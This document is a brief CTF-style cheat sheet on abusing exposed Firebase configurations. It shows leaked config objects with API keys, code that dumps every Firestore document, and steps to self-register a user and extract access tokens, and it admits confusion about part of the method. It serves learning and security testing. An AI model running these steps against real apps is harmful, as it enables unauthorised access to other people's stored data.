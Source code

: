 # Firebase Exploits

## Credentials Given to Access Firebase/Firestorage Service

Eg. the below code left exposed:

```js
const firebaseConfig = {
  apiKey: 'AIzaSyDN_2EZMN-1QCJ4V13WYUTV4UKA4Im8lLM',
  authDomain: 'websec-ctfs.firebaseapp.com',
  projectId: 'websec-ctfs',
  storageBucket: 'websec-ctfs.appspot.com',
  messagingSenderId: '617149347368',
  appId: '1:617149347368:web:e34a2bf5fe52fb1b77a71d'
}
```

In this case, we can simply download the files and run/host it ourselves, adding our own code to dump all the firestorage documents.

```js
const colRef = collection(db, `${collectionName}`);
const docsSnap = await getDocs(colRef);
docsSnap.forEach(doc => {
  console.log(JSON.stringify(doc.data()));
})
```

Another case:

```js
firebase.initializeApp({
  "apiKey": "AIzaSyDmLIX31LAFvb1hefXs-e6Baspcfg6ran8",
  "authDomain": "udctf-fire.firebaseapp.com",
  "databaseURL": "https://udctf-fire-default-rtdb.firebaseio.com",
  "messagingSenderId": "272888152617",
  "projectId": "udctf-fire",
  "storageBucket": "udctf-fire.appspot.com"
});
```

We can paste this into console, prepending `app =` to save the instance.

Following that:

```js
app.auth().createUserWithEmailAndPassword('email@example.com','Abc123!')
```

Then, run `app.auth()` and `ctrl+f` the UID, access token etc. Use the API either `/oracle` or check the [documentation](https://firebase.google.com/docs/reference/rest/database). Honestly idk what is going on Firebase is weird.